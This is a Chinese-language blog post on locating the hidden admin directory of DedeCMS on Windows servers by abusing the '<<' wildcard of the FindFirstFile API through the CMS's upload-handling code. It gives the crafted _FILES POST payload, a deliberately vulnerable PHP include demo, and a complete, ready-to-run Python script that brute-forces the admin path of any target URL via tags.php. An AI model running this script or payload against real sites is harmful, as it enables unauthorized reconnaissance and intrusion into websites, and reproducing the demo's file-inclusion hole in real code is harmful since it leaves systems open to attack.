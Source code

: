 ```yaml
---
title: dedecms查找后台目录
date: 2019-03-11 11:11:23
tags: [cms]
categories: dedecms
---
```


# DEDECMS查找后台目录

## 利用条件：

- Windows系统 

  因为需要用到通配符`<`(或`>`)，来达到以下效果。

  建立两个php文件，5149ff33ebec0e6ad37613ea30694c07.php和demo.php

  内容如下：

  ```php
  #5149ff33ebec0e6ad37613ea30694c07.php
  <?php
  	phpinfo();
  ?>
  ```

 ```php
#demo.php
<?php
	$filename = $_GET["file"];
	include $filename.".php";
?>
 ```

![001](/img/dedecms/dedecms查找后台目录/001.png)

这里是利用到了windows的FindFirstFile(API),这个API把<<当成通配符来用。而PHP的opendir(win32\readdir.c)就使用了该API。

- 包含common.inc.php的php文件，如tags.php

- 后台中一张的图片名


## 代码逻辑

在common.inc.php的145行

![002](/img/dedecms/dedecms查找后台目录/002.png)

uploadsafe.inc.php

```php
if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
    {
        exit('Request var not allow for uploadsafe!');
    }
    $$_key = $_FILES[$_key]['tmp_name'];
    ${$_key.'_name'} = $_FILES[$_key]['name'];
    ${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
    ${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
    if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    if(empty(${$_key.'_size'}))
    {
        ${$_key.'_size'} = @filesize($$_key);
    }
    
    $imtypes = array
    (
        "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
        "image/xpng", "image/wbmp", "image/bmp"
    );

    if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
    {
        $image_dd = @getimagesize($$_key);
        if (!is_array($image_dd))
        {
            exit('Upload filetype not allow !');
        }
    }
```

这一段中<font color="red">$$_key</font>的<font color="red">$key</font>取自<font color="red">$_FILE</font>,是用户可控的,可以传入<font color="red">_FILES[poc][tmp_name]=payload<</images/adminico.gif&_FILES[poc][name]=0&_FILES[poc][size]=0&_FILES[poc][type]=image/gif</font>来查找后台。payload处结合通配符可以节省遍历时间。

结合脚本：

![003](/img/dedecms/dedecms查找后台目录/003.png)

## 脚本

拿红日的脚本改的

```python3
#!/usr/bin/env python
#coding:utf-8
'''/*
    * env    = python3
    */
'''
import requests
import itertools
from optparse import OptionParser
characters = "abcdefghijklmnopqrstuvwxyz0123456789_!#"

data = {
    "_FILES[poc][tmp_name]" : "./{p}<</images/adminico.gif",
    "_FILES[poc][name]" : 0,
    "_FILES[poc][size]" : 0,
    "_FILES[poc][type]" : "image/gif"
}

def exec(url):
    back_dir = ""
    flag = 0
    for num in range(1,7):
        if flag:
            break
        for pre in itertools.permutations(characters,num):
            pre = ''.join(list(pre))
            data["_FILES[poc][tmp_name]"] = data["_FILES[poc][tmp_name]"].format(p=pre)
            print("testing",pre)
            r = requests.post(url,data=data)
            if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                flag = 1
                back_dir = pre
                data["_FILES[poc][tmp_name]"] = "./{p}<</images/adminico.gif"
                break
            else:
                data["_FILES[poc][tmp_name]"] = "./{p}<</images/adminico.gif"
    print("[+] 前缀为：",back_dir)
    flag = 0
    for i in range(30):
        if flag:
            break
        for ch in characters:
            if ch == characters[-1]:
                flag = 1
                break
            data["_FILES[poc][tmp_name]"] = data["_FILES[poc][tmp_name]"].format(p=back_dir+ch)
            r = requests.post(url, data=data)
            if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                back_dir += ch
                print("[+] ",back_dir)
                data["_FILES[poc][tmp_name]"] = "./{p}<</images/adminico.gif"
                break
            else:
                data["_FILES[poc][tmp_name]"] = "./{p}<</images/adminico.gif"
    print("后台地址为：",back_dir)

def main():
    parser = OptionParser()
    parser.add_option('-u','--url',type='string',dest='url',help='Targer URL(e.g. "https://www.site.com")')
    (options, args) = parser.parse_args()
    if options.url:
        #目标url
        url = options.url+"/tags.php"
        exec(url)
    else:
        parser.print_help()
if __name__ == '__main__':
    main()
```

